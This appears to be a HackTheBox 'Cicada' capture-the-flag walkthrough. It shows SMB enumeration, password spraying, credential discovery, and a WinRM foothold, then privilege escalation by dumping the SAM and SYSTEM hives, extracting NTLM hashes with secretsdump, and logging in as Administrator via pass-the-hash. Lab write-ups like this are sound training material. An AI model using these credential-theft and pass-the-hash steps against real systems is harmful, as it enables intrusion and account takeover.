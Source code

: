 ```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "cicada", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration

### SMB

![screenshot](/assets/images/cicada1.png)

#### Notice from HR.txt

![screenshot](/assets/images/cicada2.png)

 Found password.

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)

Password spraying the found credential with username list found a match.

Further enumerate SMB with the new credential.

![screenshot](/assets/images/cicada4.png)

Found another credential for michael.wrightson user.

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

#### Backup_script.ps1

![screenshot](/assets/images/cicada7.png)

![screenshot](/assets/images/cicada8.png)

Found another credential for emily.oscars user.

## Foothold

Evil-winRM as emily.oscars.

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)

![screenshot](/assets/images/cicada10.png)

## Privilege Escalation

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

### Backup SAM and SYSTEM registry hives

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

### Extracting hashes

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Evil-winRM as administrator.

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)
